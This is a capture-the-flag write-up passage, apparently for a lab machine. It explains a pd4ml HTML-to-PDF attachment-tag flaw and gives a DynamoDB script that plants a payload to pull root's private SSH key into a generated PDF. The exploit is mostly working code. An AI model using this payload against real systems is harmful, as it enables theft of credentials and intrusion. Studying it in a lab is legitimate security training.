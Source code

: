 The `pd4ml` is a tool for convert html in pdf and there is a [vulnerability](https://twitter.com/akhilreni_hs/status/1219666714033414144) with `<pd4ml:attachment>` tag for exploit this vulnerability need to create the table `alerts` in `dynamodb` and call the `index.php` page. For create table i write a script for grab ssh key and used in the dynamodb shell on `http://s3.bucket.htb/shell/`.


```js
var params = {
  AttributeDefinitions: [
    {
      AttributeName: 'title',
      AttributeType: 'S'
    },
    {
      AttributeName: 'data',
      AttributeType: 'S'
    }
  ],
  KeySchema: [
    {
      AttributeName: 'title',
      KeyType: 'HASH'
    },
    {
      AttributeName: 'data',
      KeyType: 'RANGE'
    },
  ],
  ProvisionedThroughput: {
    ReadCapacityUnits: 1,
    WriteCapacityUnits: 1
  },
  TableName: 'alerts'
};
dynamodb.createTable(params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response

});

// Waits for tables to be come ACTIVE.  
// Useful for waiting for table operations like CreateTable to complete. 
var params = {
    TableName: 'alerts',
};
// Supports 'tableExists' and 'tableNotExists'
dynamodb.waitFor('tableExists', params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response
});



var params = {
  TableName: 'alerts',
  Item: {
    'title' : 'Ransomware',
    'data': '<pd4ml:attachment> /root/.ssh/id_rsa </pd4ml:attachment>'
  }
};

docClient.put(params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response
});
```
